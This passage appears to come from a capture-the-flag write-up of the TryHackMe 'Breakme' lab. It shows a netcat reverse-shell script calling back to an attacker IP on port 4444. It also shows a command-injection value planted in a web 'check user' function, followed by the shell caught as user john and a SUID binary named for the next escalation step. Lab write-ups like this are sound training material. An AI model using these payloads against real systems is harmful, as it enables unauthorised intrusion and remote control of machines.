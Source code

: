 First we have to create a bash script with a reverse shell payload.

```bash
www-data@Breakme:/dev/shm$ echo '#!/bin/bash' > rev.sh
echo '#!/bin/bash' > rev.sh
www-data@Breakme:/dev/shm$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4444 >/tmp/f' >> rev.sh
<ash -i 2>&1|nc 10.17.87.131 4444 >/tmp/f' >> rev.sh
www-data@Breakme:/dev/shm$ cat rev.sh
cat rev.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4444 >/tmp/f
```

Now, put `|/dev/shm/rev.sh|` in that ‘check user’ function and start your netcat listner to get the john’s shell.

![image 16](https://github.com/user-attachments/assets/556b3e70-3a91-47d6-bae1-8fa178d5c65b)

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ rlwrap -f . -r nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.17.87.131] from (UNKNOWN) [10.10.233.108] 40510
bash: cannot set terminal process group (538): Inappropriate ioctl for device
bash: no job control in this shell
john@Breakme:~/internal$ pwd
/home/john/internal
john@Breakme:~/internal$ cd ~
john@Breakme:~$ ls -la
ls -la
total 32
drwxr-xr-x 4 john john 4096 Jul  8 07:18 .
drwxr-xr-x 5 root root 4096 Feb  3  2024 ..
lrwxrwxrwx 1 john john    9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 john john  220 Jul 31  2023 .bash_logout
-rw-r--r-- 1 john john 3526 Jul 31  2023 .bashrc
lrwxrwxrwx 1 john john   24 Jul  8 07:18 file -> /home/youcef/.ssh/id_rsa
drwx------ 2 john john 4096 Jul  8 07:18 internal
drwxr-xr-x 3 john john 4096 Jul 31  2023 .local
-rw-r--r-- 1 john john  807 Jul 31  2023 .profile
-rw------- 1 john john   33 Aug  3  2023 user1.txt
john@Breakme:~$ cat user1.txt
cat user1.txt
5c3ea0d31256.....REDACTED
```

---

### Shell as youcef

Check the home directoy of user youcef, found a SUID binary `readfile` owned by youcef that we can run.
